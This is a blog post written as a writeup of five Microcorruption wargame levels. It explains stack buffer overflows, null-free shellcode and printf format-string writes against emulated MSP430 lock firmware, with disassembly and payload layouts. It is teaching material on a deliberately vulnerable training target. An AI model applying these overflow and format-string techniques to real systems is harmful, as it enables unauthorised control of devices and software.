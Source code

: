 ```yaml
---
layout: post
title: microcorruption-ctf-johannesburg-whitehorse-montevideo-addisababa-novosibirsk
excerpt: "Writeup for microcorruption's Johannesburg, Whitehorse, Montevideo, Addis Ababa and Novosibirsk levels."
categories: [writeup]
tags: [itsec, wargame]
---
```


[microcorruption](http://www.microcorruption.com)

## Johannesburg ##

``` shell
     - A firmware update rejects passwords which are too long.
     - This lock is attached the the LockIT Pro HSM-1.
```  

This looks a lot like Cusco - where we allocate 63 (`0x3f`) bytes to read user input but only pop 18 off at the end - though there is some weirdness in the main function:

``` shell
4566:  b012 4644      call  #0x4446 <unlock_door>
456a:  3f40 d144      mov #0x44d1 "Access granted.", r15
456e:  023c           jmp #0x4574 <login+0x48>
4570:  3f40 e144      mov #0x44e1 "That password is not correct.", r15
4574:  b012 f845      call  #0x45f8 <puts>
4578:  f190 5c00 1100 cmp.b #0x5c, 0x11(sp)     # compare the 17th byte on sp with 0x5c
457e:  0624           jeq #0x458c <login+0x60>  # if it matches, jump to 4588
4580:  3f40 ff44      mov #0x44ff "Invalid Password Length: password too long.", r15
4584:  b012 f845      call  #0x45f8 <puts>
4588:  3040 3c44      br  #0x443c <__stop_progExec__>
458c:  3150 1200      add #0x12, sp             # sp += 18
4590:  3041           ret
```

You can still enter passwords which are too long but the program will check that the 17th byte is equal to `0x5c` - if it isn't `__stop_progExec__` will be called, bypassing the opportunity to overwrite the return address.

Note that `0x12`, or 18 bytes, are added to `sp` before returning and popping the return address off the stack. This means our payload will be something like `<16 bytes of junk>0x5c<another byte><overwritten return address>`. For the latter we can pick `unlock_door`'s address and we're all set.

## Whitehorse ##

``` shell
    - This lock is attached the the LockIT Pro HSM-2.
    - We have updated  the lock firmware to connect with this hardware
      security module.
```

This is getting interesting. `login` looks familiar in that the number of bytes read (`0x30`) differs from the ones we pop (`0x16`). However instead of having `unlock_door` we are met with this rather annoying `conditional_unlock_door`.

``` shell
4508:  3e40 3000      mov #0x30, r14
450c:  0f41           mov sp, r15
450e:  b012 8645      call  #0x4586 <getsn>
4512:  0f41           mov sp, r15
4514:  b012 4644      call  #0x4446 <conditional_unlock_door>
4518:  0f93           tst r15
451a:  0324           jz  #0x4522 <login+0x2e>
451c:  3f40 c544      mov #0x44c5 "Access granted.", r15
4520:  023c           jmp #0x4526 <login+0x32>
4522:  3f40 d544      mov #0x44d5 "That password is not correct.", r15
4526:  b012 9645      call  #0x4596 <puts>
452a:  3150 1000      add #0x10, sp
452e:  3041           ret
```

`conditional_unlock_door` makes use of the `0x7e` interrupt to unlock the door 
``` shelll
445a:  0f12           push  r15
445c:  3012 7e00      push  #0x7e
4460:  b012 3245      call  #0x4532 <INT>
```

This interrupt interfaces with the HSM - meaning we get zero visibility on the password. Looking at the doc, we'd really want this to use `0x7f` instead, which is an unconditional unlock (no password checking). However there is no such function in the code.

But fear not! Microcorruption provides us with a way to assemble our own code. We can write our own `unlock` method:

``` shell
push #0x7f
call #0x4532
```

Assembling this gives us `30127f00b0123245`. Now the trick is to point `pc`, the program counter, to it.

There is no stack randomisation and we know exactly where our input will be - just stick a breakpoint at `0x4512`:

``` shell
> r sp 16
   3654:   7061 7373 776f 7264  password
   365c:   0000 0000 0000 0000  ........
   3664:   3c44 0000 0000 0000  <D......
```

Our input will then be `<shellcode><padding to 16 bytes><sp's address>`. Nice.

## Montevideo ##

``` shell
    - Lockitall developers  have rewritten the code  to conform to the
      internal secure development process.
    - This lock is attached the the LockIT Pro HSM-2.
```

At first glance this looks like Whitehorse with a `strcpy`:

``` shell
4508:  3e40 3000      mov #0x30, r14
450c:  3f40 0024      mov #0x2400, r15
4510:  b012 a045      call  #0x45a0 <getsn>
4514:  3e40 0024      mov #0x2400, r14
4518:  0f41           mov sp, r15
451a:  b012 dc45      call  #0x45dc <strcpy>
451e:  3d40 6400      mov #0x64, r13
```

And the same uneven pop at the end. However `strcpy` presents us with a challenge. Let's see what happens when we add in our Cusco's shellcode by putting a breakpoint at `0x451e`:

``` shell
> r sp
   43ee:   3012 7f00 0000 0000  0.....
   43f6:   0000 0000 0000 0000  ........
   43fe:   3c44 3140 0044 1542  <D1@.D.B
   4406:   5c01 75f3 35d0 085a  \.u.5..Z
```

Mmm... It looks like everything after `7f` was ignored. This is because `strcpy` stops copying data once it encounters a null byte (`0x00`). Recall that in order to call the right interrupt we pushed `0x7f` on the stack - which is really `0x7f00` in little endian!

We need to find a way to get rid of the `0x00`. Let's try the below:

``` shell
mov #0x0f70, r15
add #0xf10f, r15
```

It's overflow, but there are no null bytes. Note that if you get something like 'CPUOFF', it's probably because you inadvertly set the 4th bit of the status register (see section 3.2.3 of the TI manual).

Our instructions will look like: 

``` shell
mov #0x0f70, r15
add #0xf10f, r15
push r15
call #0x454c
```

Which assemble to `3f40700f3f500ff10f12b0124c45`. As with Cusco, we just need to pad this and add the return address pointing to our shellcode on the stack. The final input will be `<14 bytes of shellcode><2  bytes of padding><address on stack>`.


## Addis Ababa ##

``` shell
    - We have verified passwords can not be too long.
    - Usernames are printed back to the user for verification.
    - This lock is attached the the LockIT Pro HSM-1.
```

This looks like a `printf` format exploit! Though after some trial and error, the `printf` implementation is rather limited compared to the C one we're used to. However as guessed, `printf` is passed user input directly - that is, `printf(input)` as opposed to `printf('%s', input)`. This is readily observable with input such as `DD:%x`.


As a side note, we can't mix hex and ascii in the input. As such we'll need to translate everything into hex.

We can exploit this to write to an arbitrary address - but where? There's a conditional expression (`tst  0`) that looks interesting:

``` shell
448a:  8193 0000      tst 0x0(sp)
448e:  0324           jz  #0x4496 <main+0x5e>
4490:  b012 da44      call  #0x44da <unlock_door>
4494:  053c           jmp #0x44a0 <main+0x68>
4496:  3012 1f45      push  #0x451f "That entry is not valid."
```

If `sp` is 0 (which it is if the password isn't correct), it will jump to `0x4496` - but if it isn't, `unlock_door` will be called. That means we don't even really care what we override the test value with as long as it is greater than 0.

With this in mind our input will be: `<0x448c - the address we want to overwrite>:<padding, though not necessary>%x%n` - with `%n` writing the number of bytes so far to `0x448c`. We will have essentially changed the instruction to:

``` shell
8193 0400
tst 0x4(sp)
```

Where 4 is the number of bytes written. Job done.

## Novosibirsk ##

``` shell
    - This lock is attached the the LockIT Pro HSM-2.
    - We have added features from b.03 to the new hardware.
```

This is very similar to Addis Ababa - but we're not so lucky as having `unlock_door` readily available. Instead we're met with `conditional_unlock_door` which does check a given password with the HSM. Bummer.

All is not lost however. `conditional_unlock_door` raises the following interrupt:

``` shell
44c2:  0e12           push  r14
44c4:  0f12           push  r15
44c6:  3012 7e00      push  #0x7e
44ca:  b012 3645      call  #0x4536 <INT>
```

As we know from the documentation, `0x7e` expects a password to trigger the deadbolt - but `0x7f` doesn't. Could we overwrrite `0x44c8` with `0x7f00`?

Given `printf`'s limitations we would need the ability to enter at least 127 bytes (`0x7f`) as our input.

``` shell
4454:  3e40 f401      mov #0x1f4, r14
4458:  3f40 0024      mov #0x2400, r15
445c:  b012 8a45      call  #0x458a <getsn>
```

Ha. They're giving us `0x1f4` bytes to work with. Plenty. Our input will then look like `<0x44c8 - the address of the 0x7e><padding>%x%n` such that the total length of the payload is 127.
